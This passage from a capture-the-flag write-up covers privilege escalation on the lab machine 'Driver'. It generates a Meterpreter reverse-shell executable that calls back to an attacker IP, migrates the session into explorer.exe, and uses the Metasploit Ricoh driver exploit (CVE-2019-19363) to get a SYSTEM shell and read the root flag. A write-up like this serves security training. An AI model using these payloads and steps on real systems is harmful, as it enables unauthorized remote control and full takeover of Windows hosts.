There's one caveat though: it requires to be run in a Meterpreter shell, since it needs local access to the machine to execute. This means that we'll need to transform our shell into a meterpreter one.

To do so, we'll create a meterpreter reverse shell payload.

```sh
❯ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5  LPORT=9002 -f exe -o /workspace/server/meterpreter_revshell.exe
```

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: /workspace/server/meterpreter_revshell.exe
```

Let's setup a listener with `exploit/multi/handler` and configure it to catch a `windows/x64/meterpreter/reverse_tcp` reverse shell.

```sh
msf6 exploit(multi/handler) > run
```

```
[*] Started reverse TCP handler on 10.10.14.5:9002
```

Then, we'll transfer `meterpreter_revshell.exe` to Driver.

If we execute this binary, we should receive a connection on our listener.

```
[*] Sending stage (200774 bytes) to 10.10.11.106
[*] Meterpreter session 1 opened (10.10.14.5:9002 -> 10.10.11.106:49418) at 2023-12-10 11:31:52 +0100

meterpreter >
```

Now we can `background` this session and configure `exploit/windows/local/ricoh_driver_privesc` to obtain a `windows/x64/shell_reverse_tcp` reverse shell using the number of our session.

There's still one issue though: if we try to run this exploit, we see that it hangs after adding a printer. This is because our reverse shell payload is in a different session than most of the services and apps running on Driver. We can see that using `ps` in meterpreter:

```sh
meterpreter > ps
```

```
Process List
============

 PID   PPID  Name                           Arch  Session  User         Path
 ---   ----  ----                           ----  -------  ----         ----
 <SNIP>
 524   656   explorer.exe                   x64   1        DRIVER\tony  C:\Windows\explorer.exe
 <SNIP>
 3068  4336  meterpreter_revshell.exe       x64   0        DRIVER\tony  C:\tmp\meterpreter_revshell.exe
 <SNIP>
```

Our `meterpreter_revshell.exe` payload is in the session `0`, but we want to get into session `1`. To do so, we'll have to migrate into a process running on session `1`. We can choose any process, but I'll focus on `explorer.exe`. I tried to migrate into `SearchUI.exe`, but it hanged.

```sh
meterpreter > migrate -N explorer.exe
```

```
[*] Migrating from 3068 to 3128...
[*] Migration completed successfully.
```

## Exploitation

Let's run `exploit/windows/local/ricoh_driver_privesc` to exploit [CVE-2019-19363](https://nvd.nist.gov/vuln/detail/CVE-2019-19363)!

```sh
msf6 exploit(windows/local/ricoh_driver_privesc) > run
```

```
[-] Handler failed to bind to 10.10.14.5:9003:-  -
[-] Handler failed to bind to 0.0.0.0:9003:-  -
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions
[*] Adding printer hGYIqM...
[*] Deleting printer hGYIqM
[*] Exploit completed, but no session was created.
```

I opened my own listener on port `9003`, this is why Metasploit failed to bind to this address. It looks like it successfully completed the exploit though:

```
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.106] 49419
Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Let's confirm that we are `NT AUTHORITY\SYSTEM`:

```cmd
C:\Windows\system32> whoami
```

```
nt authority\system
```

Great!

# Local enumeration

## Home folder

The only thing we need to do to finish this box is to retrieve the root flag. As usual, we can find it on our Desktop!

```cmd
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
```

```
9573e47f8b34d31d1f66bb5025c5a7c1
```

# Afterwords



That's it for this box! The foothold was quite straightforward to obtain, although the forced authentication vulnerability was a bit hard to identify. The privilege escalation was easy to identify, but harder to exploit: the migration of the meterpreter session was new to me.

Thanks for reading!
